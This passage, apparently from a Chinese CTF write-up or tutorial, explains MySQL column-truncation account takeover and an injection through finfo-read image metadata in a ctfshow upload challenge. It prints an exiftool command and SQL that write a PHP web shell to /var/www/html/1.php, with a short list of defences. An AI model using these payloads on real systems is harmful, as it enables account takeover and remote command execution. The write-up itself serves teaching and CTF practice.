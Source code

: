 现在我们没有编码或者单引号相关的问题，为什么还可能发生注入呢？关键点在于建表时我们限制了username和password的长度最大为25，如果我们插入的数据长度超过25，MYSQL会截取前边的25个字符进行插入，而对于select请求，即使查询的数据超过25也不会产生截取，我们设想一个攻击情景，我们注册一个`username=admin[25个空格]x&password=123456`的账号，服务器首先会判断这个用户是否存在，使用的语句是：

```
select * from users where username = 'admin[25个空格]x'
```

显然是不可能查询出结果的，不会存在这个用户，因此会成功注册，网站向数据库插入一条数据，由于MYSQL会截取前边的25个字符，所以相当于插入的数据就是`username=admin&password=123456` ,然后我们用密码123456就能成功登录了。

## 防御

- 给username字段添加unique属性。
- 使用id字段作为判断用户的凭证。
- 插入数据前判断数据长度

# 文件类型注入

如果sql语句比较特殊，即使是文件类型也可以进行注入。以ctfshow上的你没见过的注入为例，这个题的上传文件的源码是：

```
$filename = md5(md5(rand(1,10000))).".zip";
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
$filepath = "upload/".$filename;
$sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('".$filename."','".$filepath."','".$filetype."');";
```

这里对于filetype使用了`finfo::file`取值，这个函数会获取文件的属性，包括图片的comment，而一个图片的comment我们是可控的，所以思路就很简单了，构造恶意的comment拼接sql语句写马即可。这里我们可以使用exiftool：

```
exiftool -overwrite_original -comment="y1ng\"');select 0x3C3F3D60245F504F53545B305D603B into outfile '/var/www/html/1.php';--+" 1.jpg
```

我这里用了16进制把恶意代码转义了一下防止引号有干扰，这句话的意思就是把1.jpg的comment改成

```
y1ng\"');select "<?=`$_POST[0]`;" into outfile '/var/www/html/1.php';--+
```

这样文件上传后读取文件的属性，实际上执行的sql语句就是：

```
INSERT INTO file(filename,filepath,filetype) VALUES ('1.jpg','文件路径','y1ng\"');select 0x3C3F3D60245F504F53545B305D603B into outfile '/var/www/html/1.php';--+');
```

所以用堆叠注入成功在/var/www/html/1.php写入了<?=`$_POST[0]`，因此直接在1.php用0传参执行命令即可(`包裹的代码在php里可以直接命令执行)
